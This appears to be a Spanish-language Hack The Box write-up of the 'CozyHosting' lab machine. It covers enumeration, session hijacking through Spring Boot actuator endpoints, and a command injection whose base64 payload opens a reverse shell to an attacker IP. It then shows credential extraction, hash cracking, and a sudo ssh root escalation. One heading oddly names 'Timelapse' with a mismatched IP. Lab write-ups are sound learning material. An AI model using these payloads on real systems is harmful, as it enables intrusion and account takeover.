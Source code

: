 ```yaml
---
layout: post
title:  "Maquina CozyHosting | HTB Write-Up"
description: Empezaremos con el Write-Up de la maquina de HackTheBox llamada CozyHosting.
tags: HTB, Facil, Linux
---
```


# Timelapse ~ Hack The Box

Machine IP: 10.10.11.152

## Reconocimiento

Empezamos con el escaneo de puertos:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.230 -oG allPorts
```

Nos encontramos con el puerto **22** y **80** abiertos.

Ahora realizamos el escaneo de versiones:

```bash
nmap -sCV -p22,80 10.10.11.230 -oN targeted
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Cozy Hosting - Home
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Agregamos la pagina al archivo ```/etc/hosts```:

```
10.10.11.230 cozyhosting.htb 
```

Mientras revisamos el servicio web realizaremos una enumeracion de directorios con Wfuzz:

```bash
wfuzz -c --hc=404 -t 20 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://cozyhosting.htb/FUZZ
```

Encontramos algunos directorios:

```bash
000000015:   200        284 L    745 W      12706 Ch    "index"
000000053:   200        96 L     196 W      4431 Ch     "login"
000000259:   401        0 L      1 W        97 Ch       "admin"     
000001225:   204        0 L      0 W        0 Ch        "logout"                 
000002708:   500        0 L      1 W        73 Ch       "error"
```


En el login nos encontramos con este formulario:

![](https://i.imgur.com/lFA5bvu.png)
Pruebo algunas inyecciones, y editar algunas cosas con el inspector pero no logro nada.

Paso a ver la pagina de error, y me encuentro con algo que me llama la atencion:

![](https://i.imgur.com/WfYskGP.png)

Decido googlear "Whitelabel Error Page", y me encuentro que corresponde a un error de SpringBoot.

Intento algunas inyecciones pero no llego a nada.
Investigando encuentro que SpringBoot tiene sus propios directorios, asi que decide enumerar directorios que correspondan a SpringBoot y encuentro lo siguiente:

```bash
000000051:   200        0 L      1 W        15 Ch       "actuator/health"
000000044:   200        0 L      13 W       487 Ch      "actuator/env/path"
000000038:   200        0 L      120 W      4957 Ch     "actuator/env"
000000041:   200        0 L      13 W       487 Ch      "actuator/env/lang"
000000072:   200        0 L      1 W        445 Ch      "actuator/sessions"
000000029:   200        0 L      1 W        634 Ch      "actuator"
000000039:   200        0 L      13 W       487 Ch      "actuator/env/home"
000000058:   200        0 L      108 W      9938 Ch     "actuator/mappings"
000000032:   200        0 L      542 W      127224 Ch   "actuator/beans"
```

Revisando el directorio ```actuator/sessions``` encuentro esto:

![](https://i.imgur.com/VeNDZQs.png)

Lo que parece ser un usuario con su Token.

Anteriormente habiamos encontrado un directorio de **admin**, asi que intentaremos ingresar una vez hayamos puesto el token:

![](https://i.imgur.com/b3X0G26.png)

Ahora recargamos a la pagina de **admin**

![](https://i.imgur.com/qJDXNfE.png)

**Obtuvimos acceso al panel de admin!**

Revisando la pagina, el apartado que mas llama la atencion es al final de todo

![](https://i.imgur.com/9OLcGhY.png)

Al parecer nos permite configurar una conexion por SSH.

Si ingresamos solamente el Hostname, y dejamos el Username vacio nos dara un error, el cual nos dara un indicio de un Command Injection.

![](https://i.imgur.com/ixn0ixE.png)

Creamos un PAYLOAD que nos permita entablar una [[Reverse Shell]]:
```bash
;echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNjkvNDQzIDA+JjE="|base64${IFS}-d|bash;
```

> El comando a ejecutar debe estar en Base64.

![](https://i.imgur.com/DEA6RYW.png)

Dentro del usuario **app** no podemos hacer mucho, asi que tendremos que buscar la manera de escalar privilegio.

El archivo mas interesante que encontramos, es en la misma carpeta de **app** llamado ```cloudhosting-0.0.1.jar```

Lo pasamos a nuestra maquina, y extraemos lo que contiene.
Buscando entre las carpetas extraidas encontramos un archivo ```application.properties``` en
```/content/BOOT-INF/classes/``` el cual contiene informacion para conectarse a una base de datos **postresql**

![](https://i.imgur.com/F82RIuT.png)

Una vez conectado a la base de datos con el comando:
```bash
psql "postgresql://$DB_USER:$DB_PWD@$DB_SERVER/$DB_NAME"
```

Comenzamos a enumerar.
![](https://i.imgur.com/wZUqABH.png)
En la base de datos **cozyhosting** encontramos el hash del usuario **Admin**.

![](https://i.imgur.com/YoqyzNK.png)

Utilizando [[Hashcat]] desciframos la password:

```bash
hashcat -m 3200 -a 0 hash.txt /home/pirra/Downloads/rockyou.txt -o cracked.txt
```

Con la password obtenida tendremos acceso al usuario **Josh**

![](https://i.imgur.com/i1sxXnQ.png)

Haciendo un **sudo -l** y proporcionando la password obtenida me doy cuenta de que puedo utilizar SSH como sudo:

![](https://i.imgur.com/jWBt3Y2.png)

Aca ya sabemos lo que debemos hacer.
Directamente vamos [GTFObins](https://gtfobins.github.io/gtfobins/ssh/) y buscamos SSH, y de inmediato encontramos un comando que nos permite acceder a usuario **Root**

```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```
![](https://i.imgur.com/P4wcmol.png)

Con esto la maquina queda finalizada.

Happy Hacking!!


